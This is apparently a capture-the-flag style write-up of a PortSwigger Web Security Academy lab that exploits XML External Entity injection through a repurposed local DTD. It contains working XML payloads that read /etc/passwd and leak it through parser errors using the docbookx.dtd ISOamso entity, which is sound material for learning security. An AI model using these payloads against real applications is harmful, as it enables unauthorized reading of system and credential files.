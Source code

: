 ## Labs Covered

This write-up focuses on the following **EXPERT-level lab** from the PortSwigger Web Security Academy related to **XML External Entity (XXE) Injection**:

**Exploiting XXE to retrieve data by repurposing a local DTD**  
This lab demonstrates advanced XXE exploitation by repurposing a local Document Type Definition (DTD) to extract sensitive data.

---

### LAB 9 - Exploiting XXE to retrieve data by repurposing a local DTD

### Lab Description

![image](https://github.com/user-attachments/assets/df1a57f0-6a61-46bb-8fdc-b14a63db19eb)

### Solution

# 📘 XXE Exploitation using Local DTD

After exploring common XXE exploitation methods, it's important to understand **how to exploit XXE using a local DTD**. This technique becomes valuable when:

- External DTD declarations are **blocked**.
- Data cannot be retrieved via **in-band** or **out-of-band** channels.

---

## ❓ When to Use Local DTD?

Use **Local DTD** exploitation when:

1. The application doesn't reflect your injected entities (no in-band leakage).
2. Out-of-band (OOB) channels are filtered or restricted.
3. External DTD inclusion (via `SYSTEM "http://..."`) is blocked.

---

## 🔍 XXE Testing Methodology (Local DTD Focus)

1. **Modify the XML structure** with a test payload to see how the parser behaves.
2. **Attempt to declare a reference or parameter entity**, even if it appears blocked.
3. **Use file-based protocol handler** (like `file://`) to test for file-based reads.
   - Try pointing to a **non-existent path** to see if an error is triggered.
   - You can also test for indirect access by observing logs like:
     ```bash
     tail -f /var/log/apache2/access.log
     ```

---

## 🧪 Initial Testing

Even if you receive an "Invalid product ID" error, try injecting:

```xml
<!ENTITY test SYSTEM "file:///etc/passwd">
````

![image](https://github.com/user-attachments/assets/9a3d8368-bca6-4901-9ee9-46998d9d9688)


You may receive a parser error showing the path (`etc/passwd`), which confirms the parser is processing your entity declaration.

![image](https://github.com/user-attachments/assets/ad749fef-5945-4b05-976d-0319db50044d)

---

## 🔧 Enumerating Files with Forced Errors

To trigger file reads, use invalid paths like:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///invalid/%file;'>">
%eval;
%error;
```

This causes the parser to request:
`file:///invalid/<contents-of-passwd>`,
which will return an error and potentially leak the file’s contents inside the error message.

![image](https://github.com/user-attachments/assets/2517a8bd-5265-4304-b6bd-cfc758a70365)

---

## 📁 Using Pre-Existing Local DTD

If an internal file such as `/usr/share/yelp/dtd/docbookx.dtd` exists, it can be leveraged as a **local DTD**:

```xml
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%local_dtd;
```

Although this is technically an **external entity**, it points to a file **within the local system**, bypassing the network restriction.


---

## 💣 Full Payload Example

```xml
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```


![image](https://github.com/user-attachments/assets/97ccc1f7-b049-49ec-8b31-b66bd3f14412)

### Explanation:

* `%file;` contains the contents of `/etc/passwd`
* `%eval;` dynamically defines another entity `%error;` that requests an invalid path like `/nonexistent/<file_contents>`
* This triggers a parser error, revealing the contents in the error message

Lab is solved as we get passwd file

---

